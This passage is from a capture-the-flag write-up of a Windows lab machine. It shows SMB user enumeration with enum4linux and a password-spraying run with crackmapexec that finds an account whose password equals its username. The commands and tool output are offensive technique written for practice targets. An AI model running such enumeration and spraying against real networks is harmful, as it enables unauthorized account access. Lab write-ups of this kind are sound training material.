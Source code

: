 We can use enum4linux for broad enumeration through RPC and SMB protocols.

`enum4linux 10.10.10.172 | grep -v uninitialized | tee enum4linux.out`

Enum4linux (at least the one I'm using) produces many error messages, so an inverse grep is used here to remove the error messages before saving it to the file `enum4linux.out`.

The `tee` commands prints the results to stdout as well so that we can review sooner.

From the results, we gather a list of usernames.

```
 ============================= 
|    Users on 10.10.10.172    |
 ============================= 
 <SNIP>
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
<SNIP>
```

We can format the above into a proper user list with `awk`.

`awk -F'[' '{print $2}' extractfromenum4linux.txt | awk -F']' '{print $1}' > users.txt`

Not elegant, but it does the job.

## Password Spraying

With the list of users, we try exploiting the possible weak credentials suggested by this [OWASP reference](https://wiki.owasp.org/index.php/Testing_for_default_credentials_(OTG-AUTHN-002)).

Trying the usernames as passwords panned out.

```
# crackmapexec smb 10.10.10.172 -u users.txt -p users.txt 
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK) (signing:True) (SMBv1:False)
<SNIP>
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs 
```

Found credentials:

* username: SABatchJobs
* password: SABatchJobs

## Re-enumerating SMB
